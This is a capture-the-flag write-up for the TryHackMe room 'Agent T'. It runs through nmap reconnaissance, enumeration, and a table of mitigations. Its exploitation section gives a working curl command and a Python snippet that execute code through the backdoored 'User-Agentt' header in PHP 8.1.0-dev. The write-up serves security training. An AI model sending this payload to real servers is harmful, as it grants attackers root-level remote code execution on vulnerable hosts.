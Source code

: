 [Agent T](https://tryhackme.com/room/agentt)

**Difficulty:** Easy 

**Objective:** Exploit vulnerable PHP version to gain remote code execution and capture the flag.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.X.X  
**Service/Ports:** 80/HTTP  
**Entry Point:** PHP 8.1.0-dev via User-Agentt header  
**Privilege Escalation:** Not required (root shell from exploit)  
**Outcome:** Remote command execution and flag captured

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance  
### Passive: None  

### Active: Ran Nmap with full version detection.  
Command used: nmap -sS -sV -A -Pn 10.10.X.X  
Result: Port 80 open, running PHP cli server 5.5 or later (PHP 8.1.0-dev)

---

## 4. Enumeration  
- Gobuster, initially showed nothing  
- Explored the website manually; page was static and non-interactive  
- Tried XSS and path traversal payloads — nothing worked  
- Found image URL in GET request: https://source.unsplash.com/Mv9hjnEUHR4/60x60 (stock image, not exploitable)  
- Revisited Nmap scan and focused on PHP version  
- Found public exploit for PHP 8.1.0-dev

---

## 5. Exploitation  
Vulnerability: PHP 8.1.0-dev evaluates the User-Agentt header as PHP code  
Exploit: Exploit-DB 49933  
Technique: Send HTTP request with header User-Agentt: system('id');  
Result: Command executed remotely on the server  
Example request: curl -H "User-Agentt: system('id');" http://10.10.X.X  
Python PoC: requests.get(url, headers={"User-Agentt": "system('id');"})  
Access: Code executed as root

---

## 6. Privilege Escalation  
Not required. Initial code execution was already under root privileges.

---

## 7. Post Exploitation  
Searched for flag with: find / -name "flag*" 2>/dev/null  
Enumerated file system  
No pivoting necessary due to root access

---

## 8. Flags / Proof  

Other Credentials: N/A

---

## 9. Mitigations  
| Vulnerability                     | Risk  | Suggested Mitigation                         |  
|----------------------------------|-------|-----------------------------------------------|  
| PHP 8.1.0-dev code execution     | High  | Do not run development versions in production |  
| Arbitrary header interpretation | High  | Sanitize and validate all HTTP headers         |  
| Lack of privilege separation     | High  | Run web services as limited users             |

---

## 10. Notes  
Time spent: ~30 min

Tools used: nmap, gobuster, curl, Python (requests)  

Lessons learned: Always check the exact version of services; developer versions can introduce dangerous behavior like arbitrary code execution via headers.





















